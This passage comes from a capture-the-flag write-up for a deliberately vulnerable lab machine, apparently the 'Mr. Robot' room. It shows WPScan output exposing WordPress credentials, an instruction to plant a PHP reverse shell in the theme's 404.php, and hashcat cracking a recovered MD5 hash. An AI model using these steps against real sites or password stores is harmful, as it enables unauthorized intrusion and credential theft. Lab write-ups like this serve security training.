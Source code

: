 ```
| Username: elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Oct 24 22:06:22 2021
[+] Requests Done: 206
[+] Cached Requests: 6
[+] Data Sent: 50.97 KB
[+] Data Received: 18.609 MB
[+] Memory used: 245.754 MB
[+] Elapsed time: 00:02:21
```
Burpsuite can be used too but slow for community edition...I didnt try this one

So In conclusion the creds are: 

`Elliot:ER28-0652`

Login with those And get to the admin dashboard!

Now getting access is classic stuff

In appearance editor just edit or add a page with a `php reverse shell` (404.php by example)

And get access on your netcat listener

```
$ cd /home/robot
$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied

```
yeah its a medium room...what did we expect? XD

`password.raw-md5` looks promising

```
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Its an easy-to crack hash so use john or hashcat...I prefer the second one for hashes

```
└──╼ $hashcat -m 0 'c3fcd3d76192e4007dfb496cca67e13b' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
```